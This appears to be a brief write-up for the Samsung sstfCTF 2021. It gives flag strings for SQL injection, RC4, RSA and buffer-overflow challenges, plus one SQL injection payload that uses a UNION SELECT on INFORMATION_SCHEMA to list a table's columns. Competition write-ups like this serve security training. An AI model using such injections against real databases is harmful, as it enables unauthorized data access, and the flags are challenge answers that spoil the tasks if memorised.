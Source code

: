 # sstfCTF 2021 (Samsung)

> Saikat Karmakar | Aug 16 : 2021

---

SQLi 101
```
SCTF{th3_f1rs7_5t3p_t0_the_w3B_h4ckEr}
```

SQLi 102
```sql
Feeling%' UNION SELECT '',COLUMN_NAME,'','','','','','' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='findme' -- - 
```
```
SCTF{b451c_SQLi_5k1lls}
```


RC four
```
SCTF{B10ck_c1pH3r_4nd_5tr3am_ciPheR_R_5ymm3tr1c}
```

RSA-101
```
SCTF{Mult1pLic4tiv3_pr0perty_of_RSA}
```

BOF 101
```
SCTF{n0w_U_R_B0F_3xpEr7}
```

BOF 102
```
SCTF{B0F_A774ck_w1Th_arg5_1n_x86}
```


